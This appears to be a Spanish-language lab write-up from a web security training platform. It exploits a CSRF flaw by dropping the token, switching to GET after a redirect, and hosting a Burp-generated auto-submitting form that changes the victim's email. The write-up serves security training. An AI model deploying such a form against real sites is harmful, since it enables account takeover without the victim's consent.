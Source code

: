 
Vemos que nos devuelve un 302 que sabemos que es una redirección por lo que le damos a follow redirection


Nos desplazamos un poco más abajo y vemos que ha cambiado.


![](assets/2022-07-14-11-26-09.png)

Volvemos a la página anterior del follow y esta pagina que aparece con:
- La peticion get
- el mail cambiado
- El token CSRF quitado

Lo enviamos a a la creación del código CSRF. Cambiamos la url por nuestra web

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://ac351f821f9deb7ac054414c008b0017.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="mano&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

Lo mandamos al body del servidor de explotación, guardamos y enviamos

![](assets/2022-07-14-11-28-10.png)
